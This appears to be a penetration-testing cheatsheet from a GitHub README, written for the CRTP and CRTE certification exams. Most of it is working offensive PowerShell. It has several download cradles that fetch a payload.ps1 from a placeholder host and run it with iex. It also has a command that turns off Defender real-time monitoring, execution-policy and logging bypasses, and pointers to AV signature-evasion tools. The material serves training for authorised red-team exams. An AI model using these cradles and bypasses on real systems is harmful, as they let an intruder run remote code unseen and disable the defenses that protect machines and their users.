 
# Cheatsheet

Originally for the CRTP and CRTE exams

## Powershell Download Cradles

```powershell
iex (New-Object Net.WebClient).DownloadString('https://somehting/payload.ps1')
# Or
$ie = New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://somehting/payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

# PSv3 onwards: 
iex (iwr 'https://somehting/payload.ps1')
# or
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','https://somehting/payload.ps1',$false);$h.send();iex $h.responseText
# or
$wr = [System.Net.WebRequest]::Create("https://something/paylaod.ps1"); $r = $wr.GetResponse(); IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Bypasses

```powershell
# AMSI bypass text file before local admin
# With local admin:
Set-MpPreference -DisableRealtimeMonitoring $true

# Check applocker policy
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Check for DeviceGuard:
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

# PS execution policy
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"

# Bypass Powershell logging with invisi-shell: https://github.com/OmerYa/Invisi-Shell
# Without admin: (Recommended - Only adds registry for current user)
RunWithRegistryNonAdmin.bat
# Type "exit" from the new powershell session to complete the cleanup - removes added registry.
```

## AV Signature bypasses

AMSITrigger (Github) - detect exact part of script - https://github.com/RythmStick/AMSITrigger  
DefenderCheck (Github) - identify code and strings from a binary/file that defender may flag - https://github.com/matterpreter/DefenderCheck  
